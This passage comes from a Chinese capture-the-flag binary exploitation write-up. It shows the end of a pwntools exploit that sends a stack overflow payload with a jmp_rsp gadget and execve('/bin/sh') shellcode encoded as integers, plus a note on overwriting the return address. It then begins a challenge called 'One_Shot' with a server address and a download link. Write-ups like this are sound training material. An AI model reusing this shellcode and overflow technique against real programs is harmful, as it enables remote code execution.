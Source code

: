 ```python
payload += '1'+p8(0xa)+'2'+p8(0xa)+'3'+p8(0xa)+'4'+p8(0xa)
payload += '3'+p8(0xa)+over+p8(0xa)+jmp_rsp+p8(0xa)
payload += '7955998173821429866'+p8(0xa)+'-1762798268771782865'+p8(0xa)  
payload += '2608851925472997992'+p8(0xa)+'7662582506348151041'+p8(0xa)
payload += '-8554491946326270456'+p8(0xa)+'364607107058774502'+p8(0xa)   

p.send(payload)

p.interactive()


#'jhH\xb8/bin'

#'///sPH\x89\xe7' -> 16683945804937768751 -> -1762798268771782865

#'hri\x01\x01\x814$'

#'\x01\x01\x01\x011\xf6Vj'

#'\x08^H\x01\xe6VH\x89' -> 9892252127383281160 -> -8554491946326270456

#'\xe61\xd2j;X\x0f\x05'

```

其中有一段需要覆盖的内存里存放循环次数（还关系到需要覆盖的地址），填充的时候需注意，需用0xc00000000覆盖使下次存入的地址覆盖返回地址

![ida](https://tva1.sinaimg.cn/large/0082zybpgy1gbxls8n8laj311c0cidl5.jpg)

![gdb](https://tva1.sinaimg.cn/large/0082zybpgy1gbxlmtx6qbj315k0i40zt.jpg)

### One_Shot

>描述
>
>一发入魂
>
>nc 47.103.214.163 20002
>
>题目地址 链接:https://pan.baidu.com/s/1FFZ9GdYNm26bZ5YoLJRFgQ  密码:42z0
>
>基准分数 100
>
>当前分数 100
>
>完成人数 121

例行检查

![checksec](https://tva1.sinaimg.cn/large/0082zybpgy1gbxm6c0kwaj30xm08gjv5.jpg)

用ida64打开
